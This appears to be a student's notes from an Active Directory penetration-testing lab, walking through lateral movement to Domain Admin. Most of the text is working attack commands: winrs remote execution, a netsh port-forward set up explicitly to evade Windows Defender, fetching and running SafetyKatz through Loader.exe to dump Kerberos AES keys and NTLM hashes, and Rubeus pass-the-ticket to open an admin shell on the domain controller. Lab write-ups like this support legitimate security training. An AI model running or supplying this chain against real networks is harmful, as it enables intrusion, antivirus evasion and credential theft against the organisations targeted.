 ```
winrs -r:dcorp-mgmt hostname;whoami
```

First we will copy it to the Public folder of dcorp-mgmt as we have the command execution over dcorp-mgmt.

```
echo F | xopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

Now, we will extract the credential for dcorp-mgmt - \[we will use SafetyKatz.exe | we can use it using Loader.exe]

So, now for running it we need to download it inside the machine. But the Windows Defender will not let it pass, it will create a racket, because we will be downloading it from a remote sever.

So, to **bypass it** we will setup port-forwarding to make this download invisible from Windows Defender.

Setup port-forwarding on dcorp-mgmt using **winrs** command (we are leveraging here our access to RCE on dcorp-mgmt using the machine dcorp-ci which is running jenkins with admin privileges)&#x20;

```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=IP_ADDRESS"
```

#### NOTE: We are piping it to null because of output redirection. If we run it without $null it will stuck.

Finally we used this command to get the leys -

```
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

As, we have got the **aes256 key** and **ntlm hash** for _**svcadmin ,**_ now we can use **Rubeus.exe** to actually get the cmd.exe session on DCORP-DC machine which is Domain Admin.

```
Rubeus.exe asktgt /user:svcadmin /aes256:KEY /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

#### --> only aes keys should be used (/opsec) | Interact (/show) | pass the ticket (/ptt)

**NOTE: It uses LogonType9, which means it will show that you (studentX) is still using the machine but infact you have the admin machine rights. \[remember the Kerberos process, we have the ticket and we are actually asking the server to provide us the service based on our privileges on the TGT]**

SO, use this after getting the cmd session -->

```
winrs -r dcorp-dc cmd
```

#### -----First method ending to get DOMAIN ADMIN Privileges-----

